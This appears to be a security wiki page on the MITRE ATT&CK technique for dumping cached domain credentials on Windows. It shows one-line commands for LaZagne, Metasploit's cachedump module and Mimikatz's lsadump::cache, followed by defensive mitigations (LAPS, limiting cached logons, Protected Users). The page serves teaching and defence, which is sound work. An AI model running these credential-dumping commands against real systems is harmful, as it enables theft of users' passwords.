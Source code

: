 ```yaml
---
description: https://attack.mitre.org/techniques/T1003/005/
---
```


# Cached Domain Credentials

**ATT\&CK ID:** [T1003.005](https://attack.mitre.org/techniques/T1003/005/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to access cached domain credentials used to allow authentication to occur in the event a domain controller is unavailable.

On Windows Vista and newer, the hash format is DCC2 (Domain Cached Credentials version 2) hash, also known as MS-Cache v2 hash. The number of default cached credentials varies and can be altered per system. This hash does not allow pass-the-hash style attacks, and instead requires [Password Cracking](https://attack.mitre.org/techniques/T1110/002) to recover the plaintext password.

## Techniques

**Note:** MS-Cache password hashes cannot be used in Pass-The-Hash (Pth) attacks. However, they can be cracked to reveal the clear-text password.

### LaZagne

```
LaZagne.exe windows
```

![](../../../../.gitbook/assets/lazagne-windows.png)

### Metasploit

```
use post/windows/gather/cachedump
```

![](<../../../../.gitbook/assets/image (1352).png>)

### Mimikatz

```powershell
Invoke-Mimikatz -Command '"lsadump::cache"'
```

![](../../../../.gitbook/assets/Mimikatz-ldadump-cache.png)

## Mitigation

### LAPS

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=46899" %}

### Group Policy - Limited cached credentials

**Policy Description**

Each unique user's logon information is cached locally so that, in the event that a domain controller is unavailable during subsequent logon attempts, they are able to log on. The cached logon information is stored from the previous logon session.

**Policy name**

`Interactive logon: Number of previous logons to cache (in case domain controller is not available)`

**Location**

`Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options`

**Value**

`5` (Recommended by CIS Controls)

### Protected Users Group

This group was developed to provide better protection for high privileged accounts from credential theft attacks. Members of this group have non-configurable protection applied.

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group" %}

* [**Device protections for signed in Protected Users**](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group#device-protections-for-signed-in-protected-users)
* [**Domain controller protections for Protected Users**](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group#domain-controller-protections-for-protected-users)
